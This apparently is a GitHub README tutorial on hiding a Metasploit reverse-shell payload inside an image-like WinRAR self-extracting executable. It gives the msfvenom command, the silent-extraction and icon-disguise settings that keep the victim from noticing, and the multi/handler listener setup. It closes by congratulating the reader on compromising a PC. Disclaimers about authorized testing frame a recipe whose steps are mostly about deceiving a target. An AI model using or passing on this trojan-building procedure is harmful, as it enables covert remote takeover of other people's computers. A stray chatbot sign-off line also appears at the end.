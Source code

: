 # 🚀 Binding an msfvenom Payload with an Image for Penetration Testing  
**⚠️ For authorized penetration testing purposes only! Unauthorized use is illegal and unethical.**

---

## 🛠️ Prerequisites

- **Operating Systems**:  
  - 🐧 **Kali Linux**: For payload generation and listener setup.  
  - 🖥️ **Windows OS**: For testing the payload delivery.  

- **Tools**:  
  - `msfvenom`: To generate the payload.  
  - `msfconsole`: To capture the reverse shell.  
  - **WinRAR**: To bind files into a single executable.  
  - **Image Editor** (e.g., GIMP, online converter): For creating `.ico` files.  

- **Required Files**:  
  - 🧩 `payload.exe`: The malicious file created with msfvenom.  
  - 🖼️ `icon.ico`: A custom icon to disguise the final file.  
  - 📸 `original_image.jpg`: The image that appears legitimate.

---

## ✍️ Steps to Bind msfvenom Payload with an Image  

### Step 0: 🛡️ Note: This payload only works on machine with security features *OFF* (firewall, Window real time protection, virus and threat protection etc. ) 

### Step 1: 🌐 Find Your IP Address and Choose a Port  
1. Open Kali Linux and find your IP address:  
   ```bash
   ip a
   ```  
   Locate the IP under the active network interface (e.g., `eth0` or `wlan0`).
   ![How to find IP address](https://github.com/user-attachments/assets/47e35044-d144-4555-bb6d-385b38387c41)


   **Why**:  
   The payload needs your IP to send the connection back.  

   **If not done**:  
   The payload cannot connect to your system.  

3. Choose a port:  
   Pick a port not already in use, like `4444` or `8080`. In my case I will use 192.168.163.74 as IP and 4444 as PORT

   **Why**:  
   Both the payload and listener must use the same port for communication.  

   **If not done**:  
   Connections won’t work if the port mismatches.

---

### Step 2: 🖼️ Create an `.ico` Icon File  

#### 1. **Convert to `.ico`**  
   - Using an **Online Converter**:✅ RECOMENDED
     - Upload the image to a service like [freeconvert.com](https://www.freeconvert.com/ico-converter).  
     - Download the `.ico` file.

   - Using **GIMP**:  
     - Open the image.  
     - Resize to 256x256.  
     - Go to `File > Export As` and save as `icon.ico`.  
     


   **Why**:  
   This step ensures the final executable looks like a harmless file.  

   **If not done**:  
   The file may display a generic app icon, raising suspicion.

---

### Step 3: 🛠️ Create the msfvenom Payload  

1. Run the following in Kali Linux:  
   ```bash
   msfvenom -p windows/meterpreter/reverse_tcp LHOST=<YOUR_IP> LPORT=<YOUR_PORT> -f exe -o payload.exe
   ```  
   change <YOUR_IP> and <YOUR_PORT>
   
   ![Screenshot 2024-11-20 135204](https://github.com/user-attachments/assets/4e61ff1f-b1f6-4dee-bb2c-ba7bff6d6b38)

  

   **Why**:  
   This creates the payload (`payload.exe`) to connect back to your listener.  

   **If not done**:  
   The attack will fail without a working payload.  

---

### Step 4: 📦 Bind the Payload with the Image Using WinRAR  

#### 1. **Prepare Files**  
   Move `payload.exe`, `original_image.jpg`, and `icon.ico` to your Windows machine.  

#### 2. **Configure WinRAR**  

- **Create an SFX Archive**:  
  - Select all the 3 files & Right-click the files → Select `Add to Archive`.
  - In the settings, check **Create SFX archive**.
  - ![Screenshot 2024-11-20 140511](https://github.com/user-attachments/assets/212f8121-87c9-487b-8419-64f821ee7df8)


- **Advanced Settings**:  
  - Navigate to the **Advanced tab** → Click **SFX Options**.  
  - ![Screenshot 2024-11-20 141016](https://github.com/user-attachments/assets/d34cf986-89d3-44b4-b80c-e256cbc22c30)

#### SFX Options:  
1. **Setup Tab**  
   - Enter the following under "Run after extraction":  
     ```bash
     image.jpg
     payload.exe
     ```
   - ![Screenshot 2024-11-20 140947](https://github.com/user-attachments/assets/23908794-15ce-43db-8bac-c0505693831a)


   **Why**:  
   Ensures the image opens first while the payload executes in the background.  

   **If not done**:  
   Only the payload runs, which may look suspicious.  

2. **Text and Icon Tab**  
   - Select `icon.ico` under **Load SFX icon from the file**.
   - ![Screenshot 2024-11-20 140940](https://github.com/user-attachments/assets/9a1dd537-9929-435b-8746-74acda7ebd01)


   **Why**:  
   Gives the file a legitimate appearance.  

   **If not done**:  
   The file may look suspicious with a default icon.  

3. **Modes Tab**  
   - Select:  
     - **Unpack to temporary folder**  
     - **Silent mode: Hide all**
   - ![Screenshot 2024-11-20 140952](https://github.com/user-attachments/assets/298d724e-8067-47fc-a27d-535bdc466a66)


   **Why**:  
   Prevents showing extraction or activity windows.  

   **If not done**:  
   The user may notice unexpected behavior.  

---

### Step 5: 🛡️ Set Up the Listener in Metasploit  

1. Open Metasploit on Kali Linux:  
   ```bash
   msfconsole
   ```  

2. Configure the listener:  
   ```bash
   use exploit/multi/handler  
   set payload windows/meterpreter/reverse_tcp  
   set LHOST <YOUR_IP>  
   set LPORT <YOUR_PORT>  
   exploit  
   ```
   ![Screenshot 2024-11-20 143017](https://github.com/user-attachments/assets/9f3995b8-71f2-4400-941e-909bf849191f)

   **Why**:  
   This captures the reverse shell connection from the payload.  

   **If not done**:  
   Even if the target runs the file, you won’t receive any connection.  

---

### Step 6: 🧪 Test the Payload  

1. Transfer the final file (e.g., `vulnImage.jpg`) to the Windows machine. 
![Screenshot 2024-11-20 143156](https://github.com/user-attachments/assets/e4f86713-d0f6-4063-89c2-74fac25df087)
2. Open the file: 

   - The image displays, ensuring legitimacy.  
   - In the background, the payload runs and connects back to your listener. 

🎉 Congratulation: You have successfully compromised a PC
![Screenshot 2024-11-20 144427](https://github.com/user-attachments/assets/edade0da-4a2d-4fec-a48d-69bc816866ff)


   **Why**:  
   Verifies that the binding and payload work as expected.  

   **If not done**:  
   You won’t know if the attack was successful.  

---

## ⚠️ Legal Disclaimer  

This guide is for **educational purposes only**. Use it responsibly and only with explicit authorization. Unauthorized use is illegal and unethical.  

---

Would you like additional suggestions for layout or more example screenshots? 😊
